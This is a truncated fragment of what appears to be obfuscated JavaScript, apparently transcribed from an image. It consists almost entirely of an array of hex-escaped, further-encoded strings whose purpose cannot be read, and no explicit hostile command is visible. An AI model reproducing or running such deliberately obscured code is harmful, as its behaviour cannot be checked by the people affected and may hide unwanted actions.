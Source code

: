 x66\x71','\x43\x4d\x44\x50\x42\x49\x31\x30\x42\x33\x61\x36\x69\x61','\x57\x34\x42\x64\x4c\x43\x6b\x44\x62\x53\x6f\x4d\x57\x35\x79\x49\x7a\x61','\x76\x31\x42\x64\x4e\x53\x6f\x62\x57\x51\x70\x63\x4b\x53\x6b\x30\x57\x34\x47\x51\x57\x34\x75','\x57\x34\x46\x64\x4c\x6d\x6b\x37\x77\x53\x6b\x64\x57\x4f\x50\x73\x57\x34\x2f\x63\x51\x74\x69','\x57\x50\x64\x64\x53\x38\x6b\x78\x57\x50\x58\x36','\x74\x4b\x44\x6c\x41\x30\x6d','\x57\x51\x79\x55\x57\x34\x42\x63\x4e\x38\x6b\x73\x57\x35\x33\x63\x53\x53\x6f\x52\x57\x52\x71\x35','\x7a\x38\x6b\x4b\x6d\x65\x66\x2f\x57\x4f\x66\x49\x72\x4c\x70\x64\x55\x47','\x72\x6d\x6b\x77\x70\x53\x6f\x50\x57\x37\x6c\x63\x4f\x61','\x63\x47\x4b\x6a\x63\x71\x4c\x35\x42\x33\x75\x47\x79\x57','\x45\x4b\x50\x6d\x75\x33\x65','\x57\x51\x42\x64\x4b\x57\x54\x48\x57\x34\x30\x39\x67\x6d\x6b\x32','\x63\x77\x6a\x48\x79\x32\x54\x4e\x43\x4d\x39\x31\x42\x47','\x57\x36\x7a\x36\x57\x34\x64\x63\x4d\x53\x6f\x69\x57\x37\x48\x2f\x57\x52\x4e\x63\x53\x72\x75','\x57\x52\x48\x54\x77\x38\x6b\x59\x57\x35\x71','\x75\x4c\x6a\x6c\x44\x4d\x65','\x74\x43\x6b\x50\x64\x33\x52\x63\x55\x71','\x7a\x77\x35\x30\x69\x68\x61\x53\x63\x47\x4b\x55\x79\x57','\x57\x52\x57\x4d\x57\x51\x5a\x63\x53\x38\x6b\x34','\x57\x52\x30\x56\x57\x51\x57\x69\x65\x43\x6b\x59','\x42\x4e\x6e\x50\x44\x67\x4c\x56\x42\x4a\x4f\x47\x6d\x71','\x79\x30\x48\x54\x42\x30\x57','\x43\x59\x69\x2b\x79\x32\x58\x50\x79\x32\x53\x47\x41\x61','\x57\x51\x5a\x64\x4e\x4c\x56\x64\x56\x43\x6f\x34\x7a\x4c\x57\x76\x71\x53\x6b\x61','\x61\x49\x58\x50\x44\x68\x75\x4d\x66\x43\x6f\x30\x43\x53\x6b\x67','\x42\x4d\x7a\x50\x7a\x33\x76\x59\x79\x78\x72\x50\x42\x57','\x6f\x74\x71\x58\x6c\x64\x79\x59\x6c\x4a\x65\x58\x6d\x71','\x42\x4d\x43\x47\x43\x68\x6a\x56\x44\x67\x76\x4a\x44\x61','\x72\x31\x48\x36\x71\x4d\x57','\x44\x67\x66\x50\x42\x4d\x76\x59','\x43\x64\x4f\x47\x6d\x74\x76\x57\x45\x64\x53\x6b\x63\x71','\x57\x50\x4c\x4c\x75\x6d\x6b\x71\x57\x36\x47','\x42\x33\x76\x55\x7a\x64\x4f\x47\x44\x4d\x66\x59\x6b\x61','\x79\x4d\x39\x4b\x45\x71','\x70\x6d\x6f\x59\x73\x5a\x71\x50','\x70\x32\x46\x64\x56\x49\x6a\x47','\x7a\x61\x71\x53\x57\x4f\x6c\x64\x49\x61\x52\x63\x4a\x74\x7a\x4f\x45\x61','\x42\x33\x6a\x30\x79\x77\x35\x30\x6f\x57\x4f\x6a\x46\x71','\x7a\x77\x35\x48\x79\x4d\x58\x4c\x7a\x61','\x6c\x59\x39\x4a\x41\x67\x76\x48\x44\x67\x35\x4c\x
